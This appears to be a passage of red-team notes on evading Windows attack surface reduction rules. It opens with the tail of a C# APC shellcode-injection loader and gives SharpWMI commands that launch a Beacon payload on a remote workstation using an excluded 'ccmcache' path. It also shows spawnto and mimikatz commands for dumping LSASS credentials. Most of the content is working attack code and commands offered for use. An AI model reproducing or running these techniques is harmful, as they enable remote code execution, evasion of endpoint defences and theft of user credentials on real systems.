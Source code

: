 ```
                baseAddress,
                shellcode,
                (uint)shellcode.Length,
                out _);

            success = VirtualProtectEx(
                processInfo.hProcess,
                baseAddress,
                (uint)shellcode.Length,
                (uint)PROTECTION_FLAGS.PAGE_EXECUTE_READ,
                out _);

            _ = QueueUserAPC(
                baseAddress,
                processInfo.hThread,
                IntPtr.Zero);

            ResumeThread(processInfo.hThread);

            CloseHandle(processInfo.hThread);
            CloseHandle(processInfo.hProcess);
        }
    }
}
```

### Process Creations from PSExec & Wmi

We can use the command line matching stuff like having `:\Windows\ccmcache` in our command to bypass:
```
execute-assembly C:\Tools\SharpWMI\SharpWMI\bin\Release\SharpWMI.exe action=exec computername=WKSTN-1 command="C:\Windows\System32\cmd.exe /c dir C:\Windows\ccmcache\ & C:\Windows\notepad.exe"
```

Arbitrary command line arguments can be passed to a Beacon payload so that it doesn't have to be executed via cmd.exe.

```
execute-assembly C:\Tools\SharpWMI\SharpWMI\bin\Release\SharpWMI.exe action=exec computername=WKSTN-1 command="C:\Windows\smb_x64.exe --path C:\Windows\ccmcache\cache"
```

### Credential stealin from LSASS

As with the previous rules, it can be bypassed by ensuring Mimikatz (or your tool of choice) is running from an excluded path.
```
spawnto x64 c:\windows\system32\mrt.exe
mimikatz !sekurlsa::logonpasswords
```

Or by injecting it into an existing excluded process.
